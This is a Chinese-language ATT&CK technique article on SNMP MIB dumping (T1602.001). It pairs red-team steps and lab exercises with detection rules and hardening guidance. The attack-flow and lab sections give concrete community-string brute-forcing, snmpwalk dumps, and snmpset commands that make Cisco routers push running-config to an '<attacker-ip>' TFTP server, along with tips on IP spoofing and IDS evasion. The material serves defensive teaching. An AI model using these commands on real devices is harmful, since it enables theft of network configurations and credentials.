

# SNMP（MIB 转储） (T1602.001)

## 一句话通俗理解

> **用 SNMP 协议把路由器、交换机里的网络配置信息扒出来**

## 难度等级

⭐⭐ 中级 - 需要理解 SNMP 协议、MIB 结构以及网络设备配置，但工具门槛低、社区文档丰富，攻击者拿到弱 community string 后即可批量操作。

## 技术描述

**通俗解释：** SNMP（简单网络管理协议）是网络管理员远程监控路由器、交换机、防火墙等设备的"老式但通用"协议。每台设备维护一棵 MIB（管理信息库）树，树上每个节点叫 OID（对象标识符），保存着设备型号、运行时长、接口列表、路由表、ARP 表、ACL 规则等所有可被监控的信息。攻击者只要知道 SNMP 的"社区字符串（community string）"——本质就是一段口令——就可以读取甚至修改整棵 MIB 树，把设备的配置和拓扑信息一次性"转储（dump）"出来。

**技术原理：** SNMP 走 UDP 161 端口，无连接、易伪造源 IP。三个主流版本：
- **SNMPv1 / v2c**：明文 community string 认证，无加密、无完整性校验，是当前攻击者最常滥用版本。`public` 是历史上最广泛的默认只读 community，`private` 是常见的读写 community
- **SNMPv3**：引入 USM（基于用户的安全模型）和 VACM（基于视图的访问控制），支持 `authPriv`（认证+加密）。但若配置不当（如使用 `noAuthNoPriv` 或过度宽松的 MIB 视图），其安全性等同于 v2c

攻击者通过 `snmpwalk`、`snmpbulkwalk` 顺序遍历整棵 MIB 子树，或通过 `snmp-check`、`onesixtyone` 等工具批量枚举 community string。关键 MIB OID 包括：
- `1.3.6.1.2.1.1.1` (sysDescr) — 设备型号与 IOS 版本，用于选择后续利用 payload
- `1.3.6.1.2.1.2.2` (ifTable) — 接口列表与 IP/MAC
- `1.3.6.1.2.1.4.21` (ipRouteTable) — 整张路由表
- `1.3.6.1.2.1.3.1` (atTable) — ARP 表，用于横向移动发现
- `1.3.6.1.4.1.9` (Cisco 企业 OID) — Cisco 私有 MIB，含 `running-config` 片段、本地账号哈希、TACACS+ 配置
- `1.3.6.1.4.1.9.9.96` (CISCO-CONFIG-COPY-MIB) — 允许通过 SNMP Set-Request 触发设备主动把 `running-config` 通过 TFTP/FTP/SFTP 推送到攻击者控制的服务器

**用途与影响：** 成功的 MIB dump 让攻击者一次性获得：网络拓扑、VLAN 划分、ACL 规则、BGP/OSPF 邻居、VPN 隧道配置、设备本地账号哈希（Cisco Type 5/7/8/9）、SNMP community 字符串本身、TACACS+/RADIUS 服务器地址。这些信息直接支撑后续横向移动（凭证复用登录其他设备）、防御规避（修改 ACL 屏蔽 SOC 流量）、持久化（创建本地账号或开启 Telnet 后门）。MITRE ATT&CK v19.1 将其归入 TA0009 收集战术，作为 T1602 的子技术 .001。

## 子技术列表

无子技术。T1602.001 本身即为 T1602 的子技术之一，同级还有 T1602.002（网络设备配置转储，强调通过 SSH/TFTP/Smart Install 等通道获取 running-config 文件本身，而非通过遍历 MIB 树获取零散信息）。

## 攻击流程



**步骤详解：**

1. **侦察 SNMP 端口**：`nmap -sU -p 161 --open <subnet>`，或利用 Shodan/Censys 离线扫描数据。Censys 2023 年统计显示互联网上有 3.9 万+ Cisco 路由器开放 SNMP 服务
2. **爆破 community string**：`onesixtyone -c communities.txt -i targets.txt`，常见默认 `public`、`private`、`cisco`、`admin`；或用 Metasploit `auxiliary/scanner/snmp/snmp_login`
3. **snmpwalk 遍历 MIB**：`snmpwalk -v2c -c public <target> 1.3.6.1` 递归遍历；`snmpbulkwalk` 用 GetBulkRequest 提速 10 倍以上
4. **提取敏感字段**：grep `sysDescr` 拿设备型号；`ifTable` 拿接口 IP/MAC；`ipRouteTable` 拿整张路由表；Cisco 企业 MIB 下的 `csConfigCopyTable` 暴露读写权限
5. **(可选) 触发 config-copy**：调用 `snmpset` 写入 `ccCopyProtocol=1 (TFTP)`、`ccCopySourceFileType=4 (running-config)`、`ccCopyDestFileType=1 (networkFile)`、`ccCopyServerAddress=<attacker-ip>`、`ccCopyFileName="config.bkp"`、`ccCopyEntryRowStatus=4 (createAndGo)`
6. **凭证复用与横向移动**：Cisco Type 7 可逆编码秒级还原；Type 5 (MD5crypt) 需 hashcat 模式 500；Type 8 (PBKDF2-SHA256) 较强但被 dump 后仍可离线爆破

## 真实案例

### 案例 1：APT28（Fancy Bear / GRU 26165）利用 SNMP 弱 community string 入侵全球 Cisco 路由器

- **时间**：2021 年起持续活动，2023-04-18 NCSC / CISA / FBI / NSA 联合公告
- **目标**：欧洲政府机构、美国政府机构、约 250 个乌克兰受害者，主要针对维护不善的 Cisco 路由器
- **攻击组织**：APT28（Fancy Bear、STRONTIUM、Sednit、Sofacy），俄罗斯 GRU 第 26165 情报单位
- **手法**：使用默认或弱 SNMP community string（如 `public`）登录 SNMPv2c 接口 → 枚举路由器接口（T1078.001）→ 利用 CVE-2017-6742（Cisco Bug ID CSCve54313）SNMP 远程代码执行漏洞（T1190）→ 部署 Jaguar Tooth 恶意软件，通过 TFTP 外传设备信息并植入后门
- **影响**：约 250 个乌克兰设备被植入后门；攻击者获取路由表、ARP 表、接口配置等网络拓扑信息，支撑后续针对欧洲和美国政府网络的间谍活动
- **参考链接**：[NCSC 公告](https://www.ncsc.gov.uk/news/apt28-exploits-known-vulnerability-to-carry-out-reconnaissance-and-deploy-malware-on-cisco-routers) / [CISA AA23-108A](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-108a) / [Censys 分析](https://censys.com/blog/cve-2017-6742-actively-exploited-snmp-vulnerability-on-cisco-routers)

### 案例 2：FSB Center 16（Static Tundra / Berserk Bear）滥用 CISCO-CONFIG-COPY-MIB 大规模窃取路由器配置

- **时间**：2021 至 2026 年持续活动；FBI 2025-08-20 PSA 警报；UK/EU 于 2026-07-13 正式归因
- **目标**：美国关键基础设施数千台网络设备；2025-12 针对波兰电网（企图部署 DynoWiper 擦除器，CERT Polska 高可信度归因 Center 16，ESET/Dragos 中等可信度归因 Sandworm）
- **攻击组织**：FSB Center 16（又名 Static Tundra、Berserk Bear、Energetic Bear、Crouching Yeti、Dragonfly、Ghost Blizzard），俄罗斯联邦安全局信号情报部门
- **手法**：通过 Shodan/Censys 离线扫描识别接受默认/弱 community string 的 SNMP 代理（T1595.002）→ 通过代理和 IP 欺骗（T1090、T1027）掩盖来源——SNMP 走 UDP 无连接状态，IP 欺骗极易绕过 ACL → 发送 SNMP Set-Request 滥用 `CISCO-CONFIG-COPY-MIB` (OID `1.3.6.1.4.1.9.9.96`)，让路由器主动通过 TFTP 将自身 `running-config` 推送到攻击者控制的 VPS（文件名常为 `config.bkp`、`output.txt`）→ ATT&CK 直接映射 `T1602.001`（MIB dump）+ `T1602.002`（配置转储）
- **影响**：FBI 报告称一年内 Center 16 从美国关键基础设施实体收集了数千台网络设备配置；部分设备配置被用于修改路由、建立未授权访问、对工业控制系统协议进行侦察；泄露配置中包含 Cisco Type 5/7 哈希和 SNMP community，被复用扩大攻击半径
- **参考链接**：[Picus 分析](https://www.picussecurity.com/resource/blog/fsb-center-16-how-russian-hackers-exploit-routers-via-snmp-and-cisco-smart-install) / [FBI PSA 250820](https://www.ic3.gov/PSA/2025/PSA250820) / [NSA CSI 2026-07](https://media.defense.gov/2026/Jul/09/2003959459/-1/-1/0/CSI_REDUCING_RISK_OF_SNMP_ABUSE.PDF)

### 案例 3：PRC 国家支持行为者（Salt Typhoon 等）针对全球电信骨干路由器长期 SNMP 侦察

- **时间**：2021 至 2025 年持续；CISA / FBI / NSA 于 2025-09-03 发布联合公告 AA25-239A
- **目标**：全球电信运营商骨干路由器、PE/CE 路由器，覆盖电信、政府、交通、住宿、军事网络
- **攻击组织**：PRC 国家支持行为者，包含 Salt Typhoon（盐台风）等集群
- **手法**：利用 `snmpwalk`（SNMP GET/WALK）从 APT 控制主机枚举设备（CISA 公告原文直接映射 T1602.001）→ 通过 SNMP SET 请求修改可写对象配置（T1016）→ 通过 SNMP 执行命令（T1569）并枚举同 community 组内其他设备的 SNMP 配置以横向移动（T1021）→ 修改 TACACS+ 服务器配置指向 APT 控制 IP（T1556），被动收集 ISP 客户网络 PCAP（T1040、T1005）
- **影响**：建立长期持久化访问；被动收集目标网络流量用于凭证收集；修改路由配置实现跨网络横向移动；CISA 在 ATT&CK 映射表中明确列出 `T1602.001 — Target MIB to collect network information via SNMP`
- **参考链接**：[CISA AA25-239A](https://www.cisa.gov/news-events/cybersecurity-advisories/aa25-239a)

> **补充案例：Operation Zero Disco（CVE-2025-20352，2025-09）**：TALOS 命名集群利用 SNMP GetBulkRequest 触发 Cisco IOS XE 栈溢出（CWE-121），在 Catalyst 9300/9400 上部署无文件 rootkit，设置含字符串 "disco" 的通用密码绕过 AAA 全部认证。详见 [Trend Micro 报告](https://www.trendmicro.com/en_us/research/25/j/operation-zero-disco-cisco-snmp-vulnerability-exploit.html)。

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **先扫默认 community，再上字典**：互联网上大量设备仍使用 `public` / `private` / `cisco`，命中率远高于 SMB 弱口令。`onesixtyone` 速度极快，可全段扫描
2. **优先 snmpbulkwalk 而非 snmpwalk**：GetBulkRequest 一次返回多行，大网段下速度提升 10 倍以上，且流量模式更接近监控工具的正常行为
3. **盯住 Cisco 企业 OID `1.3.6.1.4.1.9`**：通用 MIB 只给拓扑信息，Cisco 私有 MIB 含 running-config 片段、本地账号哈希、TACACS+ 服务器地址——这才是真正的金矿
4. **CISCO-CONFIG-COPY-MIB 是终极武器**：拿到读写 community 后，不需要任何利用链，让路由器自己通过 TFTP 把 running-config 推出来即可。这是 FSB Center 16 的标志性 TTP
5. **UDP 161 易伪造源 IP**：通过代理链 + IP 欺骗绕过 ACL，让日志看起来像来自内网监控主机；snmpwalk 大网段时若设备 CPU 不够会触发 `SYS-3-CPUHOG`，应控制并发并选择业务低峰

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| net-snmp (snmpwalk/snmpbulkwalk/snmpset) | 标准 SNMP 客户端套件 | Linux/Windows | [net-snmp](http://www.net-snmp.org/) |
| onesixtyone | 高速 SNMP community 爆破 | Linux | [Kali Tools](https://www.kali.org/tools/onesixtyone/) |
| snmp-check | 一键 dump 关键 MIB 信息 | Linux | [Kali Tools](https://www.kali.org/tools/snmpcheck/) |
| Metasploit `auxiliary/scanner/snmp/snmp_login` | 字典爆破 + 自动枚举 | 全平台 | [Metasploit](https://www.metasploit.com/) |
| cisco7.py | Cisco Type 7 密码还原 | Python | [GitHub](https://github.com/josephw/cisco-password-cracker) |

### 注意事项

在授权环境内使用，目标范围写入 RoE；SNMP 大批量请求会拉高设备 CPU 应控制速率；Snort 等 IDS 对 `snmpwalk` 字符串有签名，必要时改用 SNMPv3 authPriv 混淆；公网测试社区 string 爆破在多数国家视为未授权访问。

## 蓝队视角

### 检测要点

1. **来源异常**：SNMP 流量来自非监控主机（NMS 白名单之外），尤其是来自用户网段、办公网段或外部 IP
2. **频率异常**：单源短时间内发起大量 GetBulkRequest / GetNextRequest（典型 snmpbulkwalk 行为）
3. **OID 异常**：访问 `1.3.6.1.4.1.9.9.96.*`（CISCO-CONFIG-COPY-MIB）或 `1.3.6.1.4.1.9.2.1.*`（Cisco 私有配置 OID）；SET 请求出现即应告警（监控流量几乎全部是 GET / GETBULK）
4. **协议版本降级**：环境中已部署 SNMPv3 但出现 v1/v2c 流量；TFTP (UDP 69) 出现在非 TFTP 服务器上且发起方为网络设备

### 监控建议

在边界防火墙禁止 UDP 161/162 入站，仅允许 NMS 主机；部署 NetFlow 异常检测对 UDP 161 流量做"源-目的对"基线偏离即告警；启用 Cisco IOS `snmp-server enable traps` 配合 SNMP trap 将 configuration copy 事件实时上报 SIEM；在 NMS 主机上部署 EDR 监控 `snmpwalk` / `snmpset` / `onesixtyone` 进程创建；定期审计设备 running-config 对比基线检测未授权 community string 新增。

## 检测建议

### 网络层检测

**检测方法：** 监控 UDP 161 流量来源、频率、OID 模式，重点关注 SET 请求和 config-copy OID 访问

**Suricata / Snort 规则示例：**

```bash
# 1. 检测非 NMS 主机发起的 SNMP bulk 请求
alert udp $HOME_NET any -> $NETWORK_DEVICES 161 (msg:"SNMP bulk walk from non-NMS host"; \
  content:"|30 29 02 01 01 04|"; depth:6; \
  content:"|a5|"; depth:1; offset:6; \
  sid:20250101; rev:1;)

# 2. 检测针对 CISCO-CONFIG-COPY-MIB 的 SET 请求（FSB Center 16 标志性 TTP）
alert udp any any -> $NETWORK_DEVICES 161 (msg:"SNMP SET to CISCO-CONFIG-COPY-MIB"; \
  content:"|30|"; depth:1; \
  content:"|a3|"; depth:1; offset:6; \
  content:"|06 0a 2b 06 01 04 01 09 09 60|"; \
  sid:20250102; rev:1;)

# 3. 检测公网入站 SNMP 流量（应在边界直接 DROP）
alert udp $EXTERNAL_NET any -> $HOME_NET 161 (msg:"Inbound SNMP from Internet"; \
  sid:20250103; rev:1;)
```

### 主机层检测

```bash
# Linux：监控 snmpd 进程异常调用
journalctl -u snmpd -n 100 | grep -E "SET|connection from"
auditctl -w /usr/bin/snmpwalk -p x -k snmp_tool_use
auditctl -w /usr/bin/snmpset -p x -k snmp_tool_use
ausearch -k snmp_tool_use --start today

# Cisco IOS：启用配置变更日志
configure terminal
archive
 log config
  logging enable
  notify syslog contenttype plaintext
exit
snmp-server enable traps snmp authentication
```

> **避坑指南**：不要只看 UDP 161 流量大小——snmpbulkwalk 单包可达 1500 字节但频率低，简单字节数阈值会漏报；TFTP (UDP 69) 和 SNMP (UDP 161) 应关联分析，FSB Center 16 攻击链中两者总是成对出现；SNMPv3 流量虽然加密，但元数据（源 IP、目的 IP、包长、频率）仍可检测异常模式。

## 缓解措施

### 优先级 1：关键措施 — 全面迁移到 SNMPv3 authPriv 并禁用 v1/v2c

1. 资产清点：列出所有支持 SNMPv3 的设备；对仅支持 v2c 的 EOL 设备建立退役时间表
2. 配置 SNMPv3 用户与视图（限制可访问 OID 子树，禁止 config-copy 和 running-config 读取）：

```cisco
snmp-server view RESTRICTED iso included
snmp-server view RESTRICTED 1.3.6.1.4.1.9.9.96 excluded  ! 禁止 config-copy
snmp-server view RESTRICTED 1.3.6.1.4.1.9.2.1 excluded    ! 禁止读 running-config
snmp-server group ADMINS v3 priv read RESTRICTED write RESTRICTED
snmp-server user monitor ADMINS v3 auth sha <auth-pass> priv aes 256 <priv-pass>
no snmp-server community public RO
no snmp-server community private RW
```

3. 通过 ACL 限制 SNMP 来源：`access-list 99 permit host <NMS-IP>; snmp-server community <string> RO 99`；在边界防火墙入站拒绝 UDP 161/162/69 和 TCP 4786

### 优先级 2：重要措施 — 加强凭证与日志治理

1. 将 Cisco 本地密码哈希升级到 Type 8（PBKDF2-SHA256），禁用 Type 0/4/7：`username admin privilege 15 algorithm-type sha256 secret <password>`
2. 启用设备配置归档（RANCID / Oxidized / Cisco Prime），每日 diff 比对；部署 SIEM 规则关联 SNMP SET 请求 + TFTP 出站流量 + 配置变更日志；TACACS+ 服务器地址变更纳入告警

### 优先级 3：建议措施 — 架构隔离与威胁狩猎

将网络设备管理流量隔离到独立 VLAN（Out-of-Band Management）；部署 Cisco IPSLA / NetFlow 分析基线对 SNMP 流量做 UEBA 异常检测；定期开展红队演练模拟 FSB Center 16 TTP 验证检测覆盖；订阅 CISA KEV 目录对 Cisco IOS 漏洞实施强制补丁窗口（如 CVE-2025-20352 要求 14 天内修复）。

### MITRE ATT&CK 缓解措施映射

| 缓解措施 ID | 缓解措施名称 | 适用性 | 说明 |
| ----------- | ------------ | ------ | ---- |
| M1032 | 多因素认证 | 适用 | SNMPv3 USM 强制使用 HMAC 认证；考虑与 RADIUS/TACACS+ 集成 |
| M1031 | 网络隔离 | 适用 | 将 SNMP 流量限制在管理 VLAN，禁止跨 VLAN |
| M1026 | 特权账户管理 | 适用 | 网络设备管理员账号使用强密码 + Type 8 哈希，定期轮换 |
| M1018 | 用户账户管理 | 适用 | SNMPv3 用户与组定期审计，移除未使用账号 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

**推荐靶场/实验平台：**

| 平台名称 | 类型 | 难度 | 链接 |
| -------- | ---- | ---- | ---- |
| TryHackMe - Snmp | 虚拟靶场 | 初级 | [TryHackMe](https://tryhackme.com/room/snmp) |
| HackTheBox - Network Devices | CTF | 中级 | [HackTheBox](https://www.hackthebox.com/) |
| GNS3 + Cisco IOL | 网络仿真 | 中级 | [GNS3](https://www.gns3.com/) |
| EVE-NG | 网络仿真 | 高级 | [EVE-NG](https://www.eve-ng.net/) |

### 实验 1：基础实践（初级）

**实验目标：** 掌握 SNMP MIB dump 基本流程

**实验步骤：**
1. `nmap -sU -p 161 <target>` 确认 SNMP 服务
2. `onesixtyone -c /usr/share/wordlists/metasploit/snmp_default_wordlist.txt <target>` 爆破 community
3. `snmpwalk -v2c -c public <target> 1.3.6.1` 全树 dump
4. `snmp-check <target> -c public` 一键汇总
5. 在 dump 中提取 sysDescr、ifTable、ipRouteTable

**预期结果：** 拿到设备型号、接口列表、路由表。**学习要点：** 理解 MIB 树结构和 SNMPv2c 协议无加密的危险性。

### 实验 2：进阶实践（中级）

**实验目标：** 复现 FSB Center 16 的 config-copy 攻击链

**实验步骤：**
1. 在攻击机准备 TFTP 服务器：`apt install -y snmp snmp-mibs-downloader onesixtyone tftpd-hpa && systemctl enable --now tftpd-hpa && chmod 777 /var/lib/tftpboot`
2. 拿到目标设备读写 community `private`（GNS3 中 IOSv 路由器配置 `snmp-server community private RW`）
3. 用 `snmpset` 写入 `CISCO-CONFIG-COPY-MIB` 触发设备把 `running-config` 通过 TFTP 推送（OID 链：`1.3.6.1.4.1.9.9.96.1.1.1.1.{2,3,4,5,6,14}.111` 依次写入 protocol=TFTP / source=running / dest=networkFile / serverAddr=<TFTP-IP> / fileName="config.bkp" / rowStatus=createAndGo）
4. 检查 TFTP 目录应出现 `config.bkp`；用 `cisco7.py` 还原 Type 7 密码，用 hashcat 模式 500 爆破 Type 5

**预期结果：** 设备主动将 running-config 推送到攻击者 TFTP 服务器；还原出明文凭证。**学习要点：** 理解 SNMP SET 的危险性、MIB 视图限制的必要性。

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
| ---- | -------- | -------- |
| SNMP | Simple Network Management Protocol | 简单网络管理协议，工作在 UDP 161，用于网络设备监控与管理 |
| MIB | Management Information Base | 管理信息库，设备上所有可被 SNMP 查询的参数组成的树形数据库 |
| OID | Object Identifier | 对象标识符，MIB 树上每个节点的唯一编号，如 1.3.6.1.2.1.1.1 (sysDescr) |
| Community String | Community String | SNMPv1/v2c 的认证口令，明文传输，常见默认值 `public`、`private` |
| CISCO-CONFIG-COPY-MIB | Cisco Config Copy MIB | Cisco 私有 MIB（1.3.6.1.4.1.9.9.96），允许通过 SNMP 触发设备配置文件复制 |
| Type 7 Password | Cisco Type 7 Encoding | Cisco 私有可逆编码（非哈希），秒级还原明文，仅用于"隐藏"而非保护 |

## 参考资料

**官方文档：**
- [MITRE ATT&CK - T1602.001](https://attack.mitre.org/techniques/T1602/001/) / [T1602](https://attack.mitre.org/techniques/T1602/) / [RFC 3411 SNMPv3](https://datatracker.ietf.org/doc/html/rfc3411) / [Cisco SNMP 配置指南](https://www.cisco.com/c/en/us/td/docs/ios-xml/ios/snmp/configuration/15-mt/snmp-15-mt-book.html)

**安全报告（真实攻击）：**
- [NCSC/CISA/FBI/NSA - APT28 (2023-04)](https://www.ncsc.gov.uk/news/apt28-exploits-known-vulnerability-to-carry-out-reconnaissance-and-deploy-malware-on-cisco-routers) / [Picus Security - FSB Center 16 (2026-07)](https://www.picussecurity.com/resource/blog/fsb-center-16-how-russian-hackers-exploit-routers-via-snmp-and-cisco-smart-install) / [CISA AA25-239A - PRC Salt Typhoon (2025-09)](https://www.cisa.gov/news-events/cybersecurity-advisories/aa25-239a) / [FBI PSA 250820 - Center 16 (2025-08)](https://www.ic3.gov/PSA/2025/PSA250820) / [Trend Micro - Operation Zero Disco CVE-2025-20352 (2025-10)](https://www.trendmicro.com/en_us/research/25/j/operation-zero-disco-cisco-snmp-vulnerability-exploit.html) / [NSA CSI - Reducing Risk of SNMP Abuse (2026-07)](https://media.defense.gov/2026/Jul/09/2003959459/-1/-1/0/CSI_REDUCING_RISK_OF_SNMP_ABUSE.PDF) / [Censys - CVE-2017-6742 SNMP Exploitation](https://censys.com/blog/cve-2017-6742-actively-exploited-snmp-vulnerability-on-cisco-routers)

**工具与学习资料：**
- [net-snmp 套件](http://www.net-snmp.org/) · [onesixtyone](https://www.kali.org/tools/onesixtyone/) · [snmp-check](https://www.kali.org/tools/snmpcheck/) · [Metasploit snmp_login / snmp_enum](https://www.metasploit.com/) · [Atomic Red Team T1602.001](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1602.001/T1602.001.md) · [NSA Network Infrastructure Security Guide](https://media.defense.gov/2022/Mar/29/2002963748/-1/-1/0/CSI_NETWORK_INFRASTRUCTURE_SECURITY_GUIDE.PDF) · [Cisco IOS Hardening Guide](https://www.cisco.com/c/en/us/about/security-center/secure-ios-configuration-guide.html)
